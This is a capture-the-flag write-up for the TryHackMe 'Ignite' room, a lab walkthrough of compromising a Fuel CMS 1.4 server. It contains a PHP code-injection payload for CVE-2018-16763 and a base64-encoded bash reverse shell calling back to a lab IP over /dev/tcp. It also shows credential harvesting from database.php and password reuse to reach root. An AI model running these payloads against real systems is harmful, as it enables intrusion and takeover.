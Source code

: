 # Ignite

**IP:** 10.10.53.115  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 07/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.53.115 -oA nmap/Ignite
```

| Port | Service | Version |
|------|---------|---------|
| 80 | http | Apache httpd 2.4.18 |

## Enumeration

The HTTP header revealed that the webserver is running `Fuel CMS 1.4`, which I found an RCE exploit for in `searchsploit`.
```bash
searchsploit fuel cms 1.4

...
fuel CMS 1.4.1 - Remote Code Execution (1)                 | linux/webapps/47138.py
...
Shellcodes: No Results
                                                                                searchsploit -m 47138    
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/wither/CTF/THM/Ignite/files/47138.py
```

## Exploitation

It didn't seem to work, but it was primarily just running system commands like this in the URL (encoded):
```bash
/fuel/pages/select/?filter='+pi(print($a='system'))+$a('whoami')+'
```

It also didn't like spaces, so I base64 encoded a bash reverse shell 
```bash
echo '/bin/bash -i >& /dev/tcp/10.23.121.106/9001 0>&1' | base64                L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIzLjEyMS4xMDYvOTAwMSAwPiYxCg==
                                                                                echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIzLjEyMS4xMDYvOTAwMSAwPiYxCg== | base64 -d | bash
```

And sent that in Burp Suite
![[Pasted image 20250607163807.png]]

To get a shell as `www-data`.
```bash
rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.23.121.106] from (UNKNOWN) [10.10.229.16] 34074
bash: cannot set terminal process group (1043): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

## Privilege Escalation

After some research, I found that the database configuration file for `Fuel CMS` was in `/var/www/html/fuel/application/config/database.php` and it contained a password `mememe`.
```bash
cat $(find . -name "database.php" 2>/dev/null) | grep "password"
<ml$ cat $(find . -name "database.php" 2>/dev/null) | grep "password"        
|       ['password'] The password used to connect to the database
        'password' => 'mememe',
```

I had to upgrade my shell to use it, but I tried it against the `root` user and successfuly logged in.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
<ml$ python3 -c 'import pty; pty.spawn("/bin/bash")'                         
www-data@ubuntu:/var/www/html$ su -
su -
Password: mememe

id
uid=0(root) gid=0(root) groups=0(root)
```

User flag was in `/home/www-data/flag.txt`.
```bash
cat /home/www-data/flag.txt
```

`root` flag was in `/root/root.txt`.
```bash
cat /root/root.txt
```

## References
- [fuel CMS 1.4.1 - Remote Code Execution (1) - Linux webapps Exploit](https://www.exploit-db.com/exploits/47138)
- [FUEL-CMS/fuel/application/config/database.php at master · daylightstudio/FUEL-CMS · GitHub](https://github.com/daylightstudio/FUEL-CMS/blob/master/fuel/application/config/database.php)

---
#nmap #searchsploit #fuel-cms #rce #burp #base64-bypass #password-reuse #cve-2018-16763 #shell-upgrade #linux-privesc #thm